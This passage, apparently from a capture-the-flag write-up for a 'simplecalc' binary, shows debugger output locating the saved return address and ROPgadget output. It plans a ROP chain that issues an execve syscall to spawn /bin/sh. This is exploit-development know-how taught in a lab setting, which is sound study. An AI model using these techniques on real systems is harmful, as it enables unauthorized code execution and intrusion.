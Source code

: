 ```
     0x401542 <main+447>       mov    rdi, rax
     0x401545 <main+450>       call   0x4228d0 <memcpy>
 →   0x40154a <main+455>       mov    rax, QWORD PTR [rbp-0x10]
     0x40154e <main+459>       mov    rdi, rax
     0x401551 <main+462>       call   0x4156d0 <free>
     0x401556 <main+467>       mov    eax, 0x0
     0x40155b <main+472>       jmp    0x401588 <main+517>
     0x40155d <main+474>       mov    edi, 0x494402
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "simplecalc", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40154a → main()
────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x000000000040154a in main ()
gef➤  search-pattern 0x13290b34
[+] Searching '0x13290b34' in memory
[+] In '[heap]'(0x6c3000-0x6e9000), permission=rw-
  0x6c4a88 - 0x6c4a98  →   "\x34\x0b\x29\x13[...]"
  0x6c8be0 - 0x6c8bf0  →   "\x34\x0b\x29\x13[...]"
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffb0c8 - 0x7fffffffb0d8  →   "\x34\x0b\x29\x13[...]"
  0x7fffffffde60 - 0x7fffffffde70  →   "\x34\x0b\x29\x13[...]"
gef➤  i f
Stack level 0, frame at 0x7fffffffdeb0:
 rip = 0x40154a in main; saved rip = 0x0
 Arglist at 0x7fffffffdea0, args:
 Locals at 0x7fffffffdea0, Previous frame's sp is 0x7fffffffdeb0
 Saved registers:
  rbp at 0x7fffffffdea0, rip at 0x7fffffffdea8
```

So we can see that the offset between the start of our input and the return address is `0x7fffffffdea8 - 0x7fffffffde60 = 0x48`, which will be `18` integers. Now for what to execute when we get the return address. Since the binary is statically linked and there is no PIE, we can just build a rop chain using the binary for gadgets and we without an infoleak. The ROP Chain will essentially just make an execve syscall to `/bin/sh`. There are four registers that we need to control in order to make this syscall (checkout https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/ for more details):

```
rax:  0x3b              Specify execve syscall
rdi:  ptr to "/bin/sh"  Specify file to run
rsi:  0x0               Specify no arguments
rdx:  0x0               Specify no environment variables
```

To do this, we will need gadgets to control those four register. I typically like to go with gadgets like `pop rax; ret`, since it makes it simple. We will also need a gadget to write the string `/bin/sh` somewhere in memory that we know. Let's find our gadgets using ROPGadget (checkout https://github.com/JonathanSalwan/ROPgadget ):

```
$ python ROPgadget.py --binary simplecalc | grep "pop rax ; ret"
0x000000000044db32 : add al, ch ; pop rax ; ret
0x000000000040b032 : add al, ch ; pop rax ; retf 2
0x000000000040b02f : add byte ptr [rax], 0 ; add al, ch ; pop rax ; retf 2
0x000000000040b030 : add byte ptr [rax], al ; add al, ch ; pop rax ; retf 2
0x00000000004b0801 : in al, 0x4c ; pop rax ; retf
0x000000000040b02e : in al, dx ; add byte ptr [rax], 0 ; add al, ch ; pop rax ; retf 2
0x0000000000474855 : or dh, byte ptr [rcx] ; ror byte ptr [rax - 0x7d], 0xc4 ; pop rax ; ret
0x000000000044db34 : pop rax ; ret
0x000000000045d707 : pop rax ; retf
0x000000000040b034 : pop rax ; retf 2
0x0000000000474857 : ror byte ptr [rax - 0x7d], 0xc4 ; pop rax ; ret
```